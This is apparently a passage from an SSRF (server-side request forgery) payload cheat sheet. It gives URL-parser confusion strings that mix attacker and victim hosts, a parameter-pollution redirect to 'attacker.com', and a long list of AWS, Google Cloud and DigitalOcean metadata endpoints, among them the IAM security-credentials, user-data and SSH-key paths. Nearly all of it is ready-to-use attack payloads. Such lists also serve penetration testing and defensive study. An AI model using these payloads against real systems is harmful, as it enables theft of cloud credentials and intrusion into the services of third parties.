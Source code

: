 ```bash

# On each IP position try to put 1 attackers domain and the others the victim domain
<http://1.1.1.1> &@2.2.2.2# @3.3.3.3/

#Parameter pollution
next={domain}&next=attacker.com

# Bypass via open redirect
<https://portswigger.net/web-security/ssrf/lab-ssrf-filter-bypass-via-open-redirection>
```

### Cloud Meta Data files

```bash
## AWS
# from <http://docs.aws.amazon.com/AWSEC2/latest/UserGuide/ec2-instance-metadata.html#instancedata-data-categories>

<http://169.254.169.254/latest/user-data>
<http://169.254.169.254/latest/user-data/iam/security-credentials/>[ROLE NAME]
<http://169.254.169.254/latest/meta-data/iam/security-credentials/>[ROLE NAME]
<http://169.254.169.254/latest/meta-data/ami-id>
<http://169.254.169.254/latest/meta-data/reservation-id>
<http://169.254.169.254/latest/meta-data/hostname>
<http://169.254.169.254/latest/meta-data/public-keys/0/openssh-key>
<http://169.254.169.254/latest/meta-data/public-keys/[ID]/openssh-key>

# AWS - Dirs 

<http://169.254.169.254/>
<http://169.254.169.254/latest/meta-data/>
<http://169.254.169.254/latest/meta-data/public-keys/>

## Google Cloud
#  <https://cloud.google.com/compute/docs/metadata>
#  - Requires the header "Metadata-Flavor: Google" or "X-Google-Metadata-Request: True"

<http://169.254.169.254/computeMetadata/v1/>
<http://metadata.google.internal/computeMetadata/v1/>
<http://metadata/computeMetadata/v1/>
<http://metadata.google.internal/computeMetadata/v1/instance/hostname>
<http://metadata.google.internal/computeMetadata/v1/instance/id>
<http://metadata.google.internal/computeMetadata/v1/project/project-id>

# Google allows recursive pulls 
<http://metadata.google.internal/computeMetadata/v1/instance/disks/?recursive=true>

## Google
#  Beta does NOT require a header atm (thanks Mathias Karlsson @avlidienbrunn)

<http://metadata.google.internal/computeMetadata/v1beta1/>

## Digital Ocean
# <https://developers.digitalocean.com/documentation/metadata/>

<http://169.254.169.254/metadata/v1.json>
<http://169.254.169.254/metadata/v1/> 
<http://169.254.169.254/metadata/v1/id>
<http://169.254.169.254/metadata/v1/user-data>
<http://169.254.169.254/metadata/v1/hostname>
<http://169.254.169.254/metadata/v1/region>
<http://169.254.169.254/metadata/v1/interfaces/public/0/ipv6/address>

```